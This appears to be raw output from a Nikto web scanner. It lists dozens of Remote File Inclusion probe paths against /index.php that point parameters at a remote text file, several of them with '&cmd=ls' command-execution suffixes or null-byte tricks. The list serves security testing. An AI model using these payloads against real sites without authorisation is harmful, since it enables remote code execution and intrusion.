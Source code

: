 + /index.php?inc_dir=http://blog.cirt.net/rfiinc.txt?: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?includeDir=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?includeFooter=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?includesdir=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?insPath=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?lang=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?language=http://blog.cirt.net/rfiinc.txt?: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?language=en&main_page=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?lizge=http://blog.cirt.net/rfiinc.txt?&cmd=ls: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?lng=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?load=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?loadpage=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?main_tabid=1&main_content=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?may=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?middle=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?mode=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?mode=http://blog.cirt.net/rfiinc.txt?&cmd=: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?modpath=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?module=PostWrap&page=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?mosConfig_absolute_path=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?news7[\"functions\"]=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?news_include_path=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?open=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?option=com_custompages&cpage=http://blog.cirt.net/rfiinc.txt?: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?page=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?page=http://blog.cirt.net/rfiinc.txt%00: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?page=http://blog.cirt.net/rfiinc.txt?: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?pagehttp://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?page[path]=http://blog.cirt.net/rfiinc.txt?&cmd=ls: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?pagename=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?pageNikto=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?pager=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2